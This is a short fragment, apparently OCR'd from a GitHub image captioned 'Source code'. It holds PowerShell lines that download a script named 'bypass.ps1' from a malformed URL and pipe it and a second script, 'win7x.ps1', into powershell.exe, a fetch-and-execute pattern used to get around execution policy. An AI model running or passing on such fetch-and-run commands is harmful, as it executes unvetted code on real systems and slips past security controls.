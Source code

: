 Invoke-webrequest http://bypass.ps1
Get-Content .\bypass.ps1 | PowerShell.exe -noprofile



get-content .\win7x.ps1 | powershell.exe -noprofile -
